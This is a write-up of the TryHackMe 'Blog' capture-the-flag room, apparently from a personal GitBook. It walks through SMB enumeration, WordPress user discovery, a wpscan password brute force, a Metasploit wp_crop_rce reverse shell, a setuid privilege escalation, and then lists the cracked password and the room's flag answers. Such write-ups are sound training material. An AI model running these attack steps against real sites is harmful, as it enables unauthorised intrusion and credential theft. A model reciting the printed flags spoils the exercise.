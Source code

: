 ```yaml
---
description: Billy Joel made a Wordpress blog!
---
```


# Blog

## **Description**

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

_In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file._

_Credit to_ [_Sq00ky_](https://tryhackme.com/p/Sq00ky) _for the root privesc idea ;)_

The images used in this room have been used with the author's permission or in accordance with [Section 107 of the U.S. Copyright Act](https://www.copyright.gov/title17/92chap1.html#107).

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

### Nmap

```bash
nmap -A -Pn 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found out some smb, let use `enum4linux` Thank ([https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share))

### enum4linux

```bash
enum4linux -a 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>Found BillySMB</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Found bjoel username</p></figcaption></figure>

### SMBClient

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>Found some picture</p></figcaption></figure>

### Crack the images

```bash
steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption><p>Rabbit Hole!</p></figcaption></figure>

### Directory Enumeration

```bash
dirsearch -u http://10.10.89.129
```

Go back to the website that I already running **dirsearch.** I found the WordPress login.

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let try the username that found from **enum4linux**.

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>Bingo!</p></figcaption></figure>

### WPScan

```bash
wpscan --url http://blog.thm --enumerate u
```

<figure><img src="../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>WordPress version 5.0</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption><p>Found more user kwheel</p></figcaption></figure>

Now, we know the WordPress version. While running the wpscan for brute-force the password. I found some vulnerability that I can reverse shell. [https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/](https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/)

```bash
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel,bjoel -t 64 
```

* \-t 64: Sets the number of threads to `64`, controlling how many password attempts can be made in parallel

<figure><img src="../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption><p>kwheel : cutiepie1</p></figcaption></figure>

### Metasploit

```bash
msf > use exploit/multi/http/wp_crop_rce
msf > set RHOST blog.thm
msf > set LHOST <YOUR_IP>
msf > set LPORT <YOUR_PORT>
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run 
```

<figure><img src="../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Create Shell environment

```bash
SHELL=/bin/bash script -q /dev/null
```

```bash
find / -type f -user root -perm -u=s 2>/dev/null
```

Used to search the entire filesystem (`/`) for files (`-type f`) owned by the user `root` (`-user root`) that have the setuid bit set (`-perm -u=s`), suppressing error messages (`2>/dev/null`)

<figure><img src="../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

Check all file and found interesting thing.

```bash
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

```
ltrace checker
```

`ltrace`, it prints a list of all library calls made by the program as they occur.

<figure><img src="../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>DONE!</p></figcaption></figure>

## Answer the questions below

### root.txt

```bash
find / -type f -name "root.txt"
```

<figure><img src="../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption><p>9a0b2b618bef9bfa7ac28c1353d9f318</p></figcaption></figure>

```
ANS: 9a0b2b618bef9bfa7ac28c1353d9f318
```

### user.txt

```bash
find / -type f -name "user.txt"
```

<figure><img src="../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption><p>c8421899aae571f7af486492b71a8ab7</p></figcaption></figure>

```
ANS: c8421899aae571f7af486492b71a8ab7
```

### Where was user.txt found?

```bash
ANS: /media/usb/user.txt
```

### What CMS was Billy using?

<pre><code><strong>ANS: wordpress
</strong></code></pre>

### What version of the above CMS was being used?

```
ANS: 5.0
```

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
